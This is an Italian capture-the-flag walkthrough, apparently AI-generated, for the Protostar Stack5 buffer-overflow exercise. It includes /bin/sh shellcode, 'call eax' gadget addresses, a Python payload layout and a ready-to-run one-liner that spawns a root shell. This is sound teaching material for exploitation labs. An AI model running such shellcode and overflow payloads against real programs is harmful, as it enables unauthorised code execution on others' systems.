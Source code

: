 Ecco una soluzione completa per **Protostar Stack5**, basata su fonti affidabili:

---

## 🎯 Obiettivo

Hai un programma vulnerabile con `gets(buffer)` su un array di 64 byte. Lo scopo è iniettare shellcode nella stack e **sovrascrivere il ritorno**, così da eseguire `/bin/sh`.

---

## 1. Trovare l’offset EIP

Tramite GDB, possiamo stabilire il punto in cui iniziano ad essere sovrascritti gli **EIP**. A 76 byte circa (buffer 64 + 12 di padding), una stringa di 76 `A` genera crash con EIP=“AAAA…” ([0xRick's Blog][1]).

---

## 2. Shellcode da usare

Una shellcode Execve `"/bin/sh"` (32‑bit) funziona bene e riapre stdin grazie a `gets()` ([Medium][2], [dylandsouza.tech][3]).

Ad esempio:

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3
\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh
\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

---

## 3. Dove puntare l’EIP?

Il programma fa:

```
lea eax, [esp+0x10]
call gets
leave
ret
```

Quindi **EAX** contiene l’indirizzo del buffer sullo stack. Bisogna trovare un gadget `call eax` statico, presente nel binario:

```
0x080483bf   call eax
0x0804846b   call eax
```

Così EIP viene sovrascritto con uno di questi indirizzi e salta al buffer sullo stack ([Ayrx's Blog][4], [Medium][2]).

---

## 4. Costruire il payload

Un exploit tipico:

```python
payload = b'\x83\xc4\x10' + shellcode
payload += b'A' * padding
payload += p32(0x080483bf)   # indirizzo ‘call eax’ in little‑endian
```

Nel lavoro di coturnix97 si usano **18 byte di padding** tra shellcode e indirizzo in fondo per evitare overwrite da parte degli `push` dello shellcode — oppure si può aggiungere uno **stack adjust** (`add $0x10, %esp`, opcode `\x83\xc4\x10`) prima della shellcode ([YouTube][5], [Ayrx's Blog][4]).

Ad esempio:

```sh
python -c "print '\x83\xc4\x10' + SHELLCODE + 'A'*18 + '\xbf\x83\x04\x08'" | /opt/protostar/bin/stack5
```

In alternativa, si può usare un **NOP sled** (`\x90` ripetuto), utile se l’indirizzo preciso cambia leggermente ([DEV Community][6]).

---

## 5. Debug durante la scrittura

Puoi usare `\xCC` (istruzione `int3`) in cima al payload (al posto dello shellcode) per garantire che l’esecuzione salti davvero al tuo buffer: GDB ti segnalerà una trap se funziona. Ricordati di **rimuovere i `\xCC`** una volta confermata l’esecuzione ([Medium][7]).

---

## 📋 Sintesi

| Fase           | Descrizione                                                                           |
| -------------- | ------------------------------------------------------------------------------------- |
| **Offset EIP** | \~76 byte da buffer inizio a EIP                                                      |
| **Shellcode**  | Execve `/bin/sh` da exploit-db o shell‑storm                                          |
| **Gadget**     | `call eax` al caricamento di EAX con indirizzo del buffer                             |
| **Payload**    | `<stack adjust?> + NOP sled (opzionale) + shellcode + padding + indirizzo 'call eax'` |
| **Testing**    | Usa `\xCC` per debug, poi rimuovilo                                                   |

---

## 💡 Un esempio concreto (da medium e blog)

* Offset 76 byte.
* Gadget: `0x080483bf` (`\xbf\x83\x04\x08`).
* Shellcode con `add esp, 0x10` per overflow di stack.
* Padding di 18 byte tra shellcode e indirizzo.
* Shell root attivabile con `(python payload; cat) | ./stack5` ([Medium][2], [0xRick's Blog][1], [Ayrx's Blog][4]).

---

## ✅ Conclusione

Questo exploit sfrutta:

1. buffer overflow classico con **offset 76 byte**,
2. esecuzione di **shellcode** posizionato nello stack,
3. redirezione di EIP verso il buffer usando un **gadget call eax** nel binario,
4. possibilmente uno **stack adjust** per evitare corruption,
5. e debug con breakpoints `int3`.

[1]: https://0xrick.github.io/binary-exploitation/bof5/?utm_source=chatgpt.com "Buffer Overflow Examples, Code execution by shellcode injection"
[2]: https://medium.com/%40coturnix97/exploit-exercises-protostar-stack-5-963731ff4b71?utm_source=chatgpt.com "Exploit-Exercises Protostar Stack 5 | by coturnix97 - Medium"
[3]: https://dylandsouza.tech/proto-stack5/?utm_source=chatgpt.com "Protostar Writeup - stack5 - Dylan Dsouza"
[4]: https://www.ayrx.me/protostar-walkthrough-stack/?utm_source=chatgpt.com "Protostar Walkthrough - Stack | Ayrx's Blog"
[5]: https://www.youtube.com/watch?v=HDZ3FVH1YLc&utm_source=chatgpt.com "Exploit-Exercises Protostar Stack5 Exploit - YouTube"
[6]: https://dev.to/hextrace/jump-into-local-shellcode-protostar-stack5-57mb?utm_source=chatgpt.com "Jump into shellcode (protostar - stack5) - DEV Community"
[7]: https://medium.com/%40karkisulav31/stack-5-protostar-exploit-education-39e2d75437c5?utm_source=chatgpt.com "Stack 5 — Protostar — Exploit Education — ShellCode Challenge"
